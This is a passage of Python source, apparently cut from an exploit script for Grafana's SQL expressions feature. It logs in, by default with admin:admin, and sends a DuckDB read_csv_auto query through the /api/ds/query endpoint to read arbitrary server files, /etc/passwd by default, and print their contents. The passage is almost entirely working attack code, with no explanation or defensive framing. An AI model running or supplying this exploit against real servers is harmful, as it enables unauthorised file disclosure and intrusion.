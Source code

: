 ```python
    else:
        failure(f"Failed to log in as {u}:{p}")

def run_query(s, url, query):
    query_url = f"{url}/api/ds/query?ds_type=__expr__&expression=true&requestId=1"
    query_payload = {
        "from": "1696154400000",
        "to": "1696345200000",
        "queries": [
            {
                "datasource": {
                    "name": "Expression",
                    "type": "__expr__",
                    "uid": "__expr__"
                },
                "expression": query,
                "hide": False,
                "refId": "B",
                "type": "sql",
                "window": ""
            }
        ]
    }

    res = s.post(query_url, json=query_payload)
    data = res.json()

    # Handle unexpected response
    if "message" in data:
        msg_failure("Unexpected response:")
        msg_failure(json.dumps(data, indent=4))
        return None

    # Extract results
    frames = data.get("results", {}).get("B", {}).get("frames", [])

    if frames:
        values = [
            row
            for frame in frames
            for row in frame["data"]["values"]
        ]
        
        if values:
            msg_success("Successfully ran DuckDB query:")
            return values

    failure("No valid results found.")

def decode_output(values):
    return [":".join(str(i) for i in row if i is not None) for row in values]

def main(url, user="admin", password="admin", file=None):
    s = requests.Session()
    authenticate(s, url, user, password)
    file = file or "/etc/passwd"
    escaped_filename = requests.utils.quote(file)
    query = f"SELECT * FROM read_csv_auto('{escaped_filename}');"
    content = run_query(s, url, query)
    if content:
        msg_success(f"Retrieved file {file}:")
        for line in decode_output(content):
            print(line)
```